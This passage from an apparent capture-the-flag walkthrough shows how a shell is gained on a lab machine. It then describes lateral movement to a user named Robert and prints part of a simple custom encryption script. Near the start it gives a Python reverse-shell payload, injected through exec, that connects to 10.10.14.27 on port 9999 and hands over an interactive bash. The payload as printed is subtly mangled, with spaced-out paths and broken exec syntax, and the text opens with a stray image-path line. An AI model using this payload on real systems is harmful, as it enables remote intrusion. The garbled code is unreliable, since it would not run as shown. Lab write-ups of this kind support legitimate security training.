 This script will inject a reverse-shell to our IP, on port 9999, as the content of the variable passed to the exec statement will compose this payload:

```python
exec (output = 'Document: tmp'
	import socket, subprocess, os; s = socket.socket (socket.AF_INET, socket.SOCK_STREAM); s.connect (("10.10.14.27", 9999)); os.dup2 (s.fileno (), 0); os.dup2 (s.fileno (), 1); os.dup2 (s.fileno (), 2); p = subprocess.call ([ "/ bin / bash", "- i"])
a = '')
```

![2020-02-27_15-08-41.png](../../zzz_res/attachments/2020-02-27_15-08-41.png)

## Lateral movement to Robert

Once we got the shell as *www-data*, let’s do some post-exploitation recon to find out that the user of the machine is called **Robert**. Visiting his home directory we find out that we can read the contents of his files.

![2020-02-27_18-31-47.png](../../zzz_res/attachments/2020-02-27_18-31-47.png)

Inside the home we find a series of scripts, including a custom SSH server (**BetterSSH**), a crypt-decrypt tool (**SuperSecureCrypt.py**) and a set of files to perform some tests.

The code for **SuperSecureCrypt.py** is the following:

```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
```